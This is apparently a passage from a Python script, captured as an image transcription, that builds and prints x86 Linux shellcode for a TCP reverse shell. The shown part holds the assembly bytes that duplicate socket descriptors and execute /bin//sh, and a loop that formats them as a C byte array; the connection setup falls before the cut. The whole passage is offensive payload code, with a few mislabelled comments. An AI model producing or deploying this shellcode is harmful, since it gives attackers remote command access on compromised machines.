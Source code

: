 ```python
                      "\xcd\x80"                # int 0x80
                      "\x5b"                    # pop ebx
                      "\x89\xd1"                # mov ecx, edx
                      "\xb1\x02"                # mov cl, 0x02
                      "\x31\xc0"                # <label dup2_loop:> xor eax, eax
                      "\xb0\x3f"                # mov al, 0x3f
                      "\xcd\x80"                # int 0x80
                      "\x49"                    # dec ecx
                      "\x79\xf7"                # JNS short <dup2_loop>
                      "\x52"                    # push edx
                      "\x68\x2f\x2f\x73\x68"    # push 0x68732f2f
                      "\x68\x2f\x62\x69\x6e"    # push 0x6e69622f </bin//sh>
                      "\x89\xe3"                # mov ebx, esp
                      "\x52"                    # push eds
                      "\x89\xe2"                # mov edx, esp
                      "\x53"                    # push edx
                      "\x89\xe1"                # mov ecx, esp
                      "\xb0\x0b"                # mov al, 0x0b
                      "\xcd\x80",               # int 0x80
                      'iso-8859-1')

final_shellcode = ''

for i in shellcode:
    final_shellcode += '\\x'
    final_shellcode += '%02x' % (i & 0xff)

print("x86 Linux TCP Reverse Shell on port " + str(port))
print("Length: " + str(len(shellcode)) + "\n")
print("unsigned char shellcode[] = \"" + final_shellcode + "\";")
```